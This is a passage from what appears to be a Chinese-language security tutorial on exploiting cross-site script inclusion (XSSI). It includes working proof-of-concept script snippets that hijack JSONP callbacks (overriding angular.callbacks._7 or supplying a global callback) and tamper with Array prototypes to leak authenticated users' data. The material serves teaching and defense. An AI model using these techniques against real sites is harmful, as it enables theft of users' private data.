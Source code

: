 **利用**

xssi可以在用户已经认证的上下文中来窃取私钥等。滥用的情况受到开发者想像的限制。但是有些情况反复出现，所以我想说明的是这些情况。

变量如果置于全局命名空间，那么它们很容易被读取。

函数的重写即使对于一个javascript新手来说也不应该成为一个问题。下面的示例来自于一个真实的案例。网站使用jsonp来回调配置页面的用户数据。

```
angular.callbacks._7(`{`"status":STATUS,"body":`{`"demographics":`{`"email":......`}``}``}`)
```

为了得到信息， function _7 必须被重写.



```
&lt;script&gt;
      var angular = function () `{` return 1; `}`;
      angular.callbacks = function () `{` return 1; `}`;      
      angular.callbacks._7 = function (leaked) `{`
  alert(JSON.stringify(leaked));
      `}`;  
&lt;/script&gt;
&lt;script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"&gt;&lt;/script&gt;
```

[![](https://p3.ssl.qhimg.com/t01287a6b4fb5b030d1.png)](https://p3.ssl.qhimg.com/t01287a6b4fb5b030d1.png)

也可以适用于全局函数。 在这个例子中，甚至不需要重写函数，只需要提供一个自己的callback函数。



```
&lt;script&gt;
      leak = function (leaked) `{`
  alert(JSON.stringify(leaked));
      `}`;  
&lt;/script&gt;
&lt;script src="https://site.tld/p?jsonp=leak" type="text/javascript"&gt;&lt;/script&gt;
```

如果一个变量并没有在全局命名空间，那么有时候也可以能过prototype tampering来利用。prototype tampering滥用在javascript的设计中，也就是当解释代码时，javascript会遍历prototype 链来找到调用的属性。 下面的例子是在论文The Unexpected Dangers of Dynamic JavaScript 中提取的。演示如何覆盖类型Array的相关函数并访问它，非全局变量也可以泄漏。



```
(function()`{`
  var arr = ["secret1", "secret2", "secret3"];
  // intents to slice out first entry
  var x = arr.slice(1);
  ...
`}`)();
```

在原始代码中，在原始的代码中我们可以通过slice访问数组中我们感兴趣的数据, 当然攻击者可以，如上所说的，重写slice函数以窃取信息。
